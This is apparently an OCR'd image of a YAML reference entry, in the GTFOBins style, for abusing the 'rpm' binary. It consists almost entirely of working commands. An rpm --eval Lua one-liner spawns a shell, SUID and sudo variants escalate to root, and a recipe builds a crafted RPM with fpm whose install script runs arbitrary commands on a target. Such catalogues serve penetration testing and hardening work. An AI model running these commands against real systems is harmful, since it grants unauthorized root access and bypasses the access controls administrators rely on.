 ```yaml
---
functions:
  shell:
    - description: |
        From rpm versions 4.9.0 and on, posix.exec() will return an error unless called from a child process created with posix.fork(). os.execute() may be used instead.
      code: |
        rpm --eval '%{lua:os.execute("/bin/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:os.execute("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
```

